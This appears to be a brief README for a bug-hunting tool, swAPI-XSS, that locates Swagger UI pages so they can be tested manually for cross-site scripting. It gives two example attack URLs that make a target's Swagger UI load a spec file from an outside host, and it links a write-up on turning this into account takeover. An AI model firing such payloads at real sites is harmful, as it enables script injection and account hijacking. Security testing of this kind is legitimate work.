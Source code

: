 #### swAPI-XSS to find swagger api directories and test manually for potential XSS vulnerability

##### Example:
#####  https://www.target.com/swagger-ui/index.html?configUrl=https://jumpy-floor.surge.sh/test.json
##### or
##### https://www.target.com/swagger-ui/index.html?url=https://jumpy-floor.surge.sh/test.yaml


[Click here to read about the swagger API XSS](https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/)

